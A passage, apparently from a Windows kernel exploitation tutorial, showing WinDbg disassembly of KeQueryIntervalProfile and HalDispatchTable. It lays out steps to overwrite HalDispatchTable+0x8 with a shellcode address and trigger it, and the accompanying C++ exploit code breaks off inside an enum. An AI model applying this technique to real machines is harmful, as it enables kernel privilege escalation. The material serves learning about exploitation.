 ```WinDbg
fffff804`104f14f3 807c243400      cmp     byte ptr [rsp+34h],0
fffff804`104f14f8 7411            je      nt!KeQueryIntervalProfile+0x47 (fffff804`104f150b)
fffff804`104f14fa 8b442438        mov     eax,dword ptr [rsp+38h]
fffff804`104f14fe 4883c458        add     rsp,58h
fffff804`104f1502 c3              ret
fffff804`104f1503 8b057b98deff    mov     eax,dword ptr [nt!KiProfileAlignmentFixupInterval (fffff804`102dad84)]
fffff804`104f1509 ebf3            jmp     nt!KeQueryIntervalProfile+0x3a (fffff804`104f14fe)
fffff804`104f150b 33c0            xor     eax,eax
fffff804`104f150d ebef            jmp     nt!KeQueryIntervalProfile+0x3a (fffff804`104f14fe)
fffff804`104f150f cc              int     3
```

The call goes to `nt!HalDispatchTable+0x8 (fffff804'102b8ed8)`
```WinDbg
5: kd> u nt!HalDispatchTable+0x8
nt!HalDispatchTable+0x8:
fffff804`102b8ed8 10a0e90f04f8    adc     byte ptr [rax-7FBF017h],ah
fffff804`102b8ede ff              ???
fffff804`102b8edf ffb08ee90f04    push    qword ptr [rax+40FE98Eh]
fffff804`102b8ee5 f8              clc
fffff804`102b8ee6 ff              ???
fffff804`102b8ee7 ff00            inc     dword ptr [rax]
fffff804`102b8ee9 e54e            in      eax,4Eh
fffff804`102b8eeb 1004f8          adc     byte ptr [rax+rdi*8],al
...
```
Our goal is to replace this with our shellcode’s address.

To do this we must:
- [ ] Get the address of `ntoskrnl.exe`
- [ ] Get the address of **`[HalDispatchTable + 0x08]`**
- [ ] Overwrite it with our shellcode address
- [ ] Trigger the call to **`KeQueryIntervalProfile`**
- [ ] Execute our shellcode

And here’s how we do it:
```cpp
#include <stdio.h>
#include <windows.h>

#define MAXIMUM_FILENAME_LENGTH 255 

//0x4 bytes (sizeof)
enum _KPROFILE_SOURCE
{
	ProfileTime = 0,
	ProfileAlignmentFixup = 1,
	ProfileTotalIssues = 2,
	ProfilePipelineDry = 3,
	ProfileLoadInstructions = 4,
	ProfilePipelineFrozen = 5,
	ProfileBranchInstructions = 6,
	ProfileTotalNonissues = 7,
	ProfileDcacheMisses = 8,
	ProfileIcacheMisses = 9,
	ProfileCacheMisses = 10,
	ProfileBranchMispredictions = 11,
	ProfileStoreInstructions = 12,
	ProfileFpInstructions = 13,
	ProfileIntegerInstructions = 14,
	Profile2Issue = 15,
	Profile3Issue = 16,
	Profile4Issue = 17,
	ProfileSpecialInstructions = 18,
```